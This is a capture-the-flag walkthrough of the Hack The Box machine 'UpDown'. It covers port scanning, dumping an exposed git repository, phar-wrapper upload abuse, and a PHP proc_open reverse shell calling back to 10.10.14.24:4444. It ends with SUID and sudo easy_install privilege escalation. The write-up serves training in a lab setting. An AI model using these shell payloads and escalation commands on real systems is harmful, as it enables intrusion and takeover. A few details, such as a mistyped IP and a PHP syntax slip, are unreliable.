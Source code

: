 ![UpDown](https://labs.hackthebox.com/storage/avatars/d7a56d5f25100d0a918b90de80122f82.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [AB2](https://app.hackthebox.com/users/1303)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Linux   |

---






- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.177 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.177 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/739d452b-735c-49eb-8156-025f4c80f7ba)

- When I enter the web page I find the domain `siteisup.htb` and add it to the `hosts` file.
- The website allows you to see if a page is active or not. The first thing that comes to my mind is to list hosts or ports not accessible from my machine but I can't find any.
- When listing subdomains I find `dev.siteisup.htb`
- I decide to list directories with several dictionaries and I find one called dev and inside it I find a git repository. 

	```python
	gobuster dir -u http://10.10.11.177/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
	gobuster dir -u http://siteisup.htb/dev/ -w /usr/share/wordlists/dirb/common.txt -t 50 --exclude-length  281
	```

	![image](https://github.com/user-attachments/assets/edbba28a-f766-4c31-9f5f-1cd87985822f)

- I decide to download all the content of the repository with git-dumper to bring it to me locally and analyze it.

	```python
	pip install git-dumper
	git-dumper http://10.10.101.177/dev/.git/ ./repo
	```

- Inside the repository files I find in the .htaccess some indications to be able to reach a new point. I also find inside the changelog.txt file a message that indicates that the uploading of files is allowed so far.

	![image](https://github.com/user-attachments/assets/8dfb486e-57fa-4358-bac6-29675d9fe474)

- By following the instructions I get to a panel that allows me to upload files but after a while they are deleted.
- I try to automate the upload of a file and its reading by means of 2 scripts but after some time I analyze it and I see that I have no possibility to access the system through this

	- Read file
	```python
	#!/usr/bin/python
	import os
	import sys
	import signal
	import time
	import hashlib
	import string
	from pwn import *
	import requests
	
	def def_handler(sig, frame):
	        print("\n\n[!]Saliendo....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	fileName="targetlist"
	
	def simple_get(name):
	
	        value = int(time.time())
	        md5_hash = hashlib.md5()
	        md5_hash.update(str(value).encode('utf-8'))
	        folder = md5_hash.hexdigest()
	        simple_url = "http://dev.siteisup.htb/index.php?page=./uploads/" + folder + "/" + name
	        #print(simple_url)
	        burp0_headers = {"Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        response = requests.get(simple_url, headers=burp0_headers)
	        if (len(response.text) != 78):
	                print(response.text)
	
	def exploit():
	        simple_get(fileName)
	
	if __name__ == '__main__':
	        exploit()
	
	```
	
	- Upload file
	```python
	#!/usr/bin/python
	import os
	import sys
	import signal
	import time
	import hashlib
	import string
	from pwn import *
	import requests
	
	def def_handler(sig, frame):
	        print("\n\n[!]Saliendo....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	
	fileName="targetlist"
	def upload_file():
	        burp0_url = "http://dev.siteisup.htb/"
	        burp0_headers = {"Content-Type": "multipart/form-data; boundary=---------------------------36499159163642205144645867988", "Origin": "http://dev.siteisup.htb", "Connection": "keep-alive", "Referer": "http://dev.siteisup.htb/", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        burp0_data = "-----------------------------36499159163642205144645867988\r\nContent-Disposition: form-data; name=\"file\"; filename=\"targetlist\"\r\nContent-Type: application/octet-stream\r\n\r\nhttp://10.10.11.177/dev\nhttp://10.10.11.177/\nhttp://10.10.11.177/dev/.git\n\r\n-----------------------------36499159163642205144645867988\r\nContent-Disposition: form-data; name=\"check\"\r\n\r\nCheck\r\n-----------------------------36499159163642205144645867988--\r\n"
	        requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
	
	def simple_get(name):
	
	        value = int(time.time())
	        md5_hash = hashlib.md5()
	        md5_hash.update(str(value).encode('utf-8'))
	        folder = md5_hash.hexdigest()
	
	
	        simple_url = "http://dev.siteisup.htb/index.php?page=./uploads/" + folder + "/" + name
	        #print(simple_url)
	        burp0_headers = {"Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        response = requests.get(simple_url, headers=burp0_headers)
	        if (len(response.text) != 78):
	                print(response.text)
	
	def exploit():
	        #upload_file()
	        simple_get(fileName)
	
	if __name__ == '__main__':
	        exploit()
	
	```

- I choose to create a file with the php info. I zip this file and rename it to look like a txt file. I upload the file and when I consult it I apply a wrapper that allows to execute the .zip and .phar files as a php file

	```python
	echo "<?php phpinfo(); ?>" > info.php
	zip info.zip info.php
	mv info.zip info.txt
	
	GET /index.php?page=phar://uploads/53aa66f6ed5053a31bf29296762f46f1/info.txt/info
	```

- Within the disabled functions I can't find proc_open so I try to create a revershell using that function.

	![image](https://github.com/user-attachments/assets/bb671f6a-b489-47d4-b8fc-1f0b10d2310b)

	```python
	<?php
		$cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'";
		$descriptorspec = array(
			0 => array("pipe", "r"),
			1 => array("pipe", "w"),
			2 => array("pipe", "w")
		);
		$process = proc_open($cmd, $descriptorspec, $pipes);
		if (is_resource($process)){
			fclose($pipes[0]);
			fclose($pipes[1]);
			fclose($pipes[2]);
			proc_close(%process);
		}
	?>
	```

- I get a shell and search for files with the SUID permission set. I find a binary that is not common
	
	```python
	find / -perm -4000 2>/dev/null
	```
	
	![image](https://github.com/user-attachments/assets/87778889-11cf-475c-bd61-054eadd0aa44)

- Looking at the contents of the file I find the input function that is capable of executing commands.

	![image](https://github.com/user-attachments/assets/83ec174d-869d-4918-81c2-c46aa0768fcf)

- I run the finario and add code to launch a terminal as the user running the program, in this case developer. Thanks to this I become this user and I get to read the first flag.

	```python
	./siteisup
	__import__('os').system('/bin/bash')
	```

- I list the binaries that this user can run as root without providing a password and find one.

	![image](https://github.com/user-attachments/assets/091c906a-e771-4a88-b798-76656c1f4d3b)

- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/) I manage to exploit this binary, escalate my privileges and read the second flag.
	
	```python
	TF=$(mktemp -d)
	echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
	sudo /usr/local/bin/easy_install  $TF
	```
